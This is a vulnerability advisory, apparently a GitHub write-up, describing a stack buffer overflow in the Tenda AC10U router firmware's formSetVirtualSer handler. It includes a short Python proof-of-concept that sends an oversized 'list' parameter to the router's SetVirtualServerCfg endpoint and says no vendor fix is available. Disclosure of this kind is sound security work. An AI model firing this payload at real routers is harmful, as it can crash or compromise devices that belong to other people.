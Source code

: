 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the list parameter in the formSetVirtualSer function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formSetVirtualSer" retrieves the parameter "list" using "websGetVar" and passes it to the function "save_virtualser_data" without undergoing any length checks.

![1705402785915](image/formSetVirtualSer/1705402785915.png)

In the "save_virtualser_data" function, the value of "list" (referred to as "buf") is formatted using the sscanf function with the format "%[^,]%*c%[^,]%*c%[^,]%*c%s". This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "lan_ip", "in_port", "out_port", or "protocol".

![1705402900780](image/formSetVirtualSer/1705402900780.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetVirtualServerCfg'
payload = {
    "list": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
